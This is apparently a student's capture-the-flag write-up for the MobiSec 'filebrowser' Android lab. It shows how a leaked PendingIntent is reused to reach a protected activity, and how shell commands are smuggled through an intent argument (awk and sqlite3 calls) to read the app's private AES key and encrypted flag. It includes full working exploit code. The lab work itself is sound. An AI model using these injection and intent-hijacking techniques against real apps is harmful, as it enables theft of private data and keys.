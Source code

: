 # Solution


## Description of the problem

find something useful to get the flag

## Solution

Let's see the codes.

<img src="screenshots/_exploitation/filebrowser/r1.PNG" alt="codes" style="zoom:100%;" />

<img src="screenshots/_exploitation/filebrowser/r2.PNG" alt="codes" style="zoom:100%;" />

<img src="screenshots/_exploitation/filebrowser/r3.PNG" alt="codes" style="zoom:100%;" />

From the main activity, this application will receive the choices from the user with the linux command ls, du, and cat, with args, and send the intent to the class `QuaryActivity`. Then, the class `QuaryActivity` will execute ls and du commands and return the outputs of the execution. If `BuildConfig.BUILD_TYPE` or `debug` is *true*, the logs will be logged in the file `/sdcard/browser.log`. 

<img src="screenshots/_exploitation/filebrowser/ui.PNG" alt="ui" style="zoom:50%;" />

<img src="screenshots/_exploitation/filebrowser/r4.PNG" alt="codes" style="zoom:100%;" />

To set the flag, the application will get the aes key from shared preference file first, and then call the function `rawLogQuery` with `oper` = encrypted "genflag" with aes key and `arg` = encrypted flag, with the content uri "content://com.mobisec.provider.Log/log". The flag should be stored in the database. 



<img src="screenshots/_exploitation/filebrowser/r5.PNG" alt="codes" style="zoom:100%;" />

In addition, in class `PluginActivity`, a pending intent is created to `QueryActivity` and is put into an intent. 



```xml
<provider android:name="com.mobisec.filebrowser.LogProvider" android:enabled="true" android:exported="false" android:authorities="com.mobisec.provider.Log"/>
<activity android:name="com.mobisec.filebrowser.QueryActivity" android:exported="false"/>
<activity android:name="com.mobisec.filebrowser.AboutActivity" android:exported="false"/>
<activity android:name="com.mobisec.filebrowser.PluginActivity" android:permission="com.mobisec.filebrowser.permission.PLUGIN">
    <intent-filter>
        <action android:name="com.mobisec.browser.action.START_PLUGIN"/>
        <category android:name="android.intent.category.DEFAULT"/>
    </intent-filter>
</activity>
```

Also, in manifest of the application, the parameter exported are set to be false for all except `PluginActivity`, so we may call this activity directly. To send the intent to `PluginActivity`, we can get the pending intent to call `QueryActivity` When calling QueryActivity, the extended data need to be added into the intent to set `debug` = *true*, and two parameters `oper` and `arg`. 

> By giving a PendingIntent to another application, you are granting it the right to perform the operation you have specified as if the other application was yourself (with the same permissions and identity). As such, you should be careful about how you build the PendingIntent



To make the analysis system prints out the key stored in the shared preference file, we can use the command `ls ; awk 'NR==X'  /data/data/com.mobisec.filebrowser/shared_prefs/keys.xml` to print the Xth line of the file. According to the codes in class QueryActivity, the application can only get one line from the commands and write it to the log, I try to print the line one by one and find out that the key is stored in the third line of shared preference file.

<img src="screenshots/_exploitation/filebrowser/getkey3.PNG" alt="key3" style="zoom:50%;" />



For the key is generated randomly for each time, we should split the printed information for the key first, and then get the encrypted flag from the database. For the database name is "LogDb", the path of the database should be `/data/data/com.mobisec.filebrowser/databases/LogDb`. We can query this database to get the encrypted flag, and decrypt it. For the flag is set at the beginning of the program, the *id* for the flag storage should be 1. Also this can be tested by query the table *log* to get the `oper` and `arg`.

<img src="screenshots/_exploitation/filebrowser/DATABASEinfo.PNG" alt="database info" style="zoom:100%;" />



As the screenshot below, `I query SELECT oper FROM log where id=1;` and get the result the same as `encOper`, so the flag is in the first row of the table.

<img src="screenshots/_exploitation/filebrowser/1.PNG" alt="1info" style="zoom:100%;" />



According to the reference for the [SQLite](https://sqlite.org/cli.html), the command for query should be `sqlite3 /data/data/com.mobisec.filebrowser/databases/LogDb \"SELECT arg FROM log where id=1;\"`. I put this query command into a new intent and also send the pending intent with it. The query result is written to a new file in SD card. Then reading this new file and using the key to descript it, and the flag is got.

<img src="screenshots/_exploitation/filebrowser/agood.PNG" alt="f" style="zoom:100%;" />





The full codes refer to [here](AndroidStudioProjects_exploitation/filebrowser/app/src/main/java/com/example/filebrowser/MainActivity.java)

```java
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Intent i = new Intent();
        i.setComponent(new ComponentName("com.mobisec.filebrowser","com.mobisec.filebrowser.PluginActivity"));
        i.setAction("com.mobisec.browser.action.START_PLUGIN");
        startActivityForResult(i,400);

    }

    String[] key = new String[1];
    String encOper = "";

    @SuppressLint("Range")
    @Override
    protected void onActivityResult(int requestCode, int resultCode, Intent data) {
        super.onActivityResult(requestCode, resultCode, data);

        try {
            Bundle bundle1 = data.getExtras();
            final PendingIntent pi1 = (PendingIntent) bundle1.get("pi");
            final Intent i1 = new Intent();
            i1.putExtra("debug", true);
            i1.putExtra("oper", "ls");
            i1.putExtra("arg", " ; awk 'NR==3'  /data/data/com.mobisec.filebrowser/shared_prefs/keys.xml");

            pi1.send(this, 1, i1, null, null);

            try {
                TimeUnit.SECONDS.sleep(2);
            } catch (InterruptedException e) {
                e.printStackTrace();
            }

            String readfile = readFile("/sdcard/browser.log");
            Log.i("MOBISEC", readfile);
            key[0] = readfile.substring(23, 23 + 20);
            Log.i("MOBISEC", "key[0]: " + key[0]);

            byte[] aesKey = getAesKey(key[0]);
            Log.i("MOBISEC", "aesKey: " + Arrays.toString(aesKey));

            encOper = bin2hex(encrypt("genflag".getBytes(), aesKey));
            Log.i("MOBISEC", "encOper: " + encOper);         

            try {
                TimeUnit.SECONDS.sleep(2);
            } catch (InterruptedException e) {
                e.printStackTrace();
            }

            final Intent i2 = new Intent();
            i2.putExtra("debug", true);
            i2.putExtra("oper", "ls");
            i2.putExtra("arg", " ;  sqlite3 /data/data/com.mobisec.filebrowser/databases/LogDb \"SELECT arg FROM log where id=1 ;\" > /sdcard/r.txt    ");
            pi1.send(this, 2, i2, null, null);

            try {
                TimeUnit.SECONDS.sleep(2);
            } catch (InterruptedException e) {
                e.printStackTrace();
            }

            String readfile1 = readFile("/sdcard/r.txt");
            Log.i("MOBISEC", readfile1);
            String f = new String(decrypt(hex2bin(readfile1), aesKey));
            Log.w("MOBISEC",f);
        }
        catch  (Exception e) {
            Log.w("MOBISEC",Log.getStackTraceString(e));
        }     
    }
```



In my program, the following permissions are given:

```xml
<uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"
    tools:ignore="ScopedStorage" />
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE"/>
<uses-permission android:name="com.mobisec.filebrowser.permission.PLUGIN" android:protectionLevel="normal" />
```




## Optional Feedback

The hex2bin function (`public static byte[] hex2bin(String hex) throws NumberFormatException`) provided by the reversed code cannot be used. I don't know where the exception or error is. 

<img src="screenshots/_exploitation/filebrowser/errorhex2bin.PNG" alt="errorhex2bin" style="zoom:100%;" />



## reference

Save data using SQLite: https://developer.android.com/training/data-storage/sqlite

<provider>: https://developer.android.com/guide/topics/manifest/provider-element?hl=zh-cn

PendingIntent: https://developer.android.com/reference/android/app/PendingIntent

Android PendingIntent: https://www.jianshu.com/p/4a8fc0b78094

SQLite database storage location and files: https://www.cnblogs.com/AnneHan/p/14987091.html

SQLite commands: https://www.runoob.com/sqlite/sqlite-commands.html

hex2bin: https://www.jianshu.com/p/6c147330f4b9

Command Line Shell For SQLite: https://sqlite.org/cli.html